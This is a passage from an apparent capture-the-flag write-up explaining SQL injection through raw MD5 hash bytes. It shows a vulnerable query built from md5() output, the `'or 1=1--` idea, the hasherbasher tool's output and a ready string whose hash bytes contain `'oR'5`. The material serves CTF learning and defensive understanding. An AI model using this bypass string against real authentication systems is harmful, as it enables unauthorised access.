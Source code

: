 {% endcode %}

Any thoughts?? 🧠

Maybe if the MD5 hash decoded to something like `'or 1=1--`? 🤔

{% code overflow="wrap" %}

```js
db.each(`SELECT * FROM keys WHERE kid = '${md5("'or 1=1--")}'`, (err, row) => {
        ???????
```

{% endcode %}

### SQL Injection

I'd already had a suspicion about [SQLi](https://portswigger.net/web-security/sql-injection) but wasn't sure how to accomplish it. For example, how do I find a string that, when hashed, will produce a string of hex values that, when decoded (unhexed), begins with `'or 1=1--`?

My teammate already solved the challenge and recommended a tool called [hasherbasher](https://github.com/gen0cide/hasherbasher) 💡

> This tool helps exploit poorly designed authentication systems by locating ASCII strings that, when MD5 hashed, result in raw bytes that could change SQL logic.

So, it turns out we don't need to construct a hash as precisely as I'd initially anticipated. Here's the `hasherbasher` regex: `\A.*?'(\|\||or|Or|OR|oR)'[1-9]+?.*\z`.

Providing the string `'or\d'` (where `\d` is any decimal value) exists somewhere in the raw bytes, the SQL injection should succeed. Here's the example from GitHub.

{% code overflow="wrap" %}

```bash
[HASHERBASHER:cli]  INFO ===== Match Found =====
[HASHERBASHER:cli]  INFO Cracked In: 0.000172369 seconds
[HASHERBASHER:cli]  INFO  -- BEGIN RAW BYTES --
l���%'oR'5���[
[HASHERBASHER:cli]  INFO  -- END RAW BYTES --
[HASHERBASHER:cli]  INFO ===== Results =====

 Located String: DyrhGOYP0vxI2DtH8y
    Result Size: 16
   Result Bytes: [108 14 151 253 165 194 37 39 111 82 39 53 179 129 162 91]
     Result Hex: 6c0e97fda5c225276f522735b381a25b
```

{% endcode %}

If we [MD5](<https://gchq.github.io/CyberChef/#recipe=MD5()&input=RHlyaEdPWVAwdnhJMkR0SDh5>) `DyrhGOYP0vxI2DtH8y`, we get `6c0e97fda5c225276f522735b381a25b`.

If we [decode](<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NmMwZTk3ZmRhNWMyMjUyNzZmNTIyNzM1YjM4MWEyNWI&oeol=FF>) `6c0e97fda5c225276f522735b381a25b` from hex, we get `lý¥Â%'oR'5³¢[`

{% code overflow="wrap" %}
